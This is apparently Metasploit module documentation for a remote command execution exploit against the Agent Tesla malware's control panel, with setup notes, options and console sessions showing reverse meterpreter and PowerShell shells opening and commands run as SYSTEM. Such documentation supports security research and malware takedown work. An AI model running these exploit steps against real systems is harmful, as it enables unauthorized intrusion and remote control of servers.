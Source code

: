 ## Introduction

This module exploit a command injection vulnerability (authenticated and unauthenticated) in the control center of the agent Tesla.

The Unauthenticated RCE is possible by mixing two vulnerabilities (SQLi + PHP Object Injection).

By observing other sources of this panel find on the Internet to watch the patch, I concluded that the vulnerability is transfomed to an Authenticated RCE.

## Setup

Resources for testing are available here:
<https://github.com/mekhalleh/agent_tesla_panel_rce/tree/master/resources/>

### Windows

For WebPanel1.7z (unauthenticated RCE), I used WAMP server 3.1.9 x64 configured with PHP version 5.6.40 (for ioncube compatibility).

For WebPanel2.7z (authenticated RCE), I used WAMP server 3.1.9 x64 configured with PHP version 7.2.18 (for ioncube compatibility).

For WebPanel3.7z (authenticated RCE), I used WAMP server 3.1.9 x64 configured with PHP version 7.2.18 (source code is not obfuscated, don't need ioncube).

### Linux

For WebPanel1.7z (unauthenticated RCE), I used a Debian 9 on which I installed PHP version 5.6.40 (for ioncube compatibility).

For WebPanel2.7z (authenticated RCE), I used a Debian 9 on which I installed the default PHP version (for ioncube compatibility).

For WebPanel3.7z (unauthenticated RCE), I used a Debian 9 on which I installed the default PHP version (source code is not obfuscated, don't need ioncube).

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/agent_tesla_panel_rce`
4. Do: `set RHOSTS 192.168.0.15`
5. Do: `run`

## Targets

```
   Id  Name
   --  ----
   0   Automatic (Dropper)
   1   Unix (In-Memory)
   2   Windows (In-Memory)
```

## Options

**PASSWORD**

The Agent Tesla CnC password to authenticate with (needed if you attemp an authenticated RCE).

**Proxies**

A proxy chain of format type:host:port[,type:host:port][...]. It's optional.

**RHOSTS**

The target IP adress on which the control center responds.

**RPORT**

The target TCP port on which the control center responds. Default: 80

**SSL**

Negotiate SSL/TLS for outgoing connections. Default: false

**TARGETURI**

The base URI path of control center. Default: '/WebPanel'

**USERNAME**

The Agent Tesla CnC username to authenticate with (needed if you attemp an authenticated RCE).

**VHOST**

The target HTTP server virtual host.

## Usage

### Targeting Windows

```
msf5 exploit(multi/http/agent_tesla_panel_rce) > set rhosts 192.168.1.21
rhosts => 192.168.1.21
msf5 exploit(multi/http/agent_tesla_panel_rce) > set lhost 192.168.1.13
lhost => 192.168.1.13
msf5 exploit(multi/http/agent_tesla_panel_rce) > run

[*] Started reverse TCP handler on 192.168.1.13:4444
[*] Targeted operating system is: windows
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Payload uploaded as: .AUKU.php
[*] Sending stage (38247 bytes) to 192.168.1.21
[*] Meterpreter session 1 opened (192.168.1.13:4444 -> 192.168.1.21:1036) at 2019-09-04 01:24:12 +0400

meterpreter >
```

--or--

```
msf5 exploit(multi/http/agent_tesla_panel_rce) > set target 2
target => 2
msf5 exploit(multi/http/agent_tesla_panel_rce) > run

[*] Started reverse TCP handler on 192.168.1.13:4444
[*] Sending cmd/windows/reverse_powershell command payload
[*] Command shell session 2 opened (192.168.1.13:4444 -> 192.168.1.21:1040) at 2019-09-04 01:28:55 +0400

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\wamp64\www\WebPanel\server_side\scripts>whoami
nt authority\system

C:\wamp64\www\WebPanel\server_side\scripts>
```

--or--

```
msf5 exploit(multi/http/agent_tesla_panel_rce) > set target 2
target => 2
msf5 exploit(multi/http/agent_tesla_panel_rce) > set payload cmd/windows/generic
payload => cmd/windows/generic
msf5 exploit(multi/http/agent_tesla_panel_rce) > set cmd whoami
cmd => whoami
msf5 exploit(multi/http/agent_tesla_panel_rce) > set verbose true
verbose => true
msf5 exploit(multi/http/agent_tesla_panel_rce) > run

[+] The target appears to be vulnerable.
[*] Sending cmd/windows/generic command payload
[*] Generated command payload: whoami
[!] Dumping command output in parsed json response
nt authority\system
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/agent_tesla_panel_rce) >
```

### Targeting Linux

```
msf5 exploit(multi/http/agent_tesla_panel_rce) > run

[*] Started reverse TCP handler on 192.168.1.13:4444
[*] Targeted operating system is: linux
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Payload uploaded as: .WxWf.php
[*] Sending stage (38247 bytes) to 192.168.1.25
[*] Meterpreter session 2 opened (192.168.1.13:4444 -> 192.168.1.25:43260) at 2019-09-04 14:44:07 +0400

meterpreter >
```

--or--

```
msf5 exploit(multi/http/agent_tesla_panel_rce) > set target 1
target => 1
msf5 exploit(multi/http/agent_tesla_panel_rce) > set cmd whoami
cmd => whoami
msf5 exploit(multi/http/agent_tesla_panel_rce) > run

[*] Sending cmd/unix/generic command payload
[!] Dumping command output in parsed json response
www-data
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/agent_tesla_panel_rce) >
```

## References

  1. <https://www.cyber.nj.gov/threat-profiles/trojan-variants/agent-tesla>
  2. <https://krebsonsecurity.com/2018/10/who-is-agent-tesla/>
  3. <https://github.com/mekhalleh/agent_tesla_panel_rce/tree/master/resources/>
  4. <https://www.exploit-db.com/exploits/47256>
  5. <https://www.pirates.re/agent-tesla-remote-command-execution-(fighting-the-webpanel)>
